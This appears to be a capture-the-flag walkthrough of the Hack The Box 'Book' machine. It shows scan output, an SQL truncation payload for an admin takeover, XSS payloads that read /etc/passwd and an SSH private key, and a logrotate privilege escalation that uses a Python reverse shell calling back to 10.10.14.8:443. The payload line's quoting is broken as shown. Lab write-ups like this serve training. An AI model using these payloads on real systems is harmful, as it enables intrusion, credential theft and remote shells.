 ## :book: Book :books:

### Initial Scans

**<u>Quick:</u>**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



**<u>Deep:</u>**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
| ssh2-enum-algos: 
|   kex_algorithms: (10)
|   server_host_key_algorithms: (5)
|   encryption_algorithms: (6)
|   mac_algorithms: (10)
|_  compression_algorithms: (2)
| vulners: 
|   cpe:/a:openbsd:openssh:7.6p1: 
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19      *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F...-ID-30937        *EXPLOIT*
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.176
|   url                      method
|_  http://10.10.10.176:80/  FORM
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.176
|     
|     Path: http://10.10.10.176:80/
|     Line number: 318
|     Comment: 
|_         //# sourceURL=pen.js
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-date: Wed, 24 Feb 2021 00:50:03 GMT; +12m52s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers: 
|   Date: Wed, 24 Feb 2021 00:50:02 GMT
|   Server: Apache/2.4.29 (Ubuntu)
|   Set-Cookie: PHPSESSID=dso5v05avfmakogcn8v480b4q2; path=/
|   Expires: Thu, 19 Nov 1981 08:52:00 GMT
|   Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: no-cache
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-mobileversion-checker: No mobile version detected.
| http-referer-checker: 
| Spidering limited to: maxpagecount=30
|_  https://codepen.io:443/assets/common/stopExecutionOnTimeout-de7e2ef6bfefd24b79a3f68b414b87b8db5b08439cac3f1012092b2290c719cd.js
| http-security-headers: 
|   Cache_Control: 
|     Header: Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: 
|     Header: Pragma: no-cache
|   Expires: 
|_    Header: Expires: Thu, 19 Nov 1981 08:52:00 GMT
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
...
|_    WWW-Mechanize/1.34
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-xssed: No previously reported XSS vuln.
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-... *EXPLOIT*
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Port 80**

- Nikto:

  ![nikto](./book/nikto.png)

- Dirb:

  ![dirb](./book/dirb.png)

- Gobuster:

  ![gobuster](./book/gobuster.png)

- Whatweb:

  ![whatweb](./book/whatweb.png)



## Getting User

After poking around a lot, we figured out that admin@book.htb can be accessed with a sql truncation attack in the create account page by using this parameter in burpsuite:

![createacct](./book/createacct.png)

![adminact](./book/adminact.png)

Make sure to hit ctrl+u or ctrl+shift+u for url encoding the `spaces` and the `@` symbol

```html
name=admin+++++a&email=admin%40book.htb++++++1&password=password
```

Now we can login with `admin/password` at `http://book.htb/admin/`

NOTE: THIS DID REQUIRE ALOT OF MESSING AROUND WITH TO GET IT TO WORK



Under the Collections tab for Admin, there is a pdf that we can download and read. A XSS load file exists for us to arbitrarily read any file on the system by logging on as a normal user and uploading any .pdf extension file and the following XSS script under collections

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

![xss_collections](./book/xss_collections.png)



Reading /etc/passwd shows a user named reader:

![passwd](./book/passwd.png)

Let's get their RSA key so we can ssh in

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

Convert it from pdf by 

```bash
sudo apt install python3-pdfminer
pip install pdfminer.six

#get code from here: https://github.com/pdfminer/pdfminer.six/blob/develop/tools/pdf2txt.py
python3 /usr/local/bin/pdf2txt.py /home/kali/Downloads/51619.pdf>./id_rsa

#might need to modify spaces still, so double check it
```

 Use RSA key to get in as reader:

```bash
chmod 600 id_rsa
ssh -i id_rsa reader@10.10.10.176
```

![reader](./book/reader.png)

## Priv Esc

From running linpeas, we find something about timers and a logrotten?

https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation

POC Code: https://github.com/whotwagner/logrotten



Download C file to target and compile it:

```bash
wget http://10.10.14.8/logrotten.c
gcc -o logrotten logrotten.c
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",443));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &
./logrotten -d -p ./payloadfile /home/reader/backups/access.log
```

Background the shell with ctrl+z

Write random content to access.log on target machine:

```bash
echo hello > access.log
```

Start reverse listener on port 443 to catch  shell:

```bash
sudo nc -nlvp 443
```

TTY will only be active for a short period so either spawn another reverse listener or grab the file and go!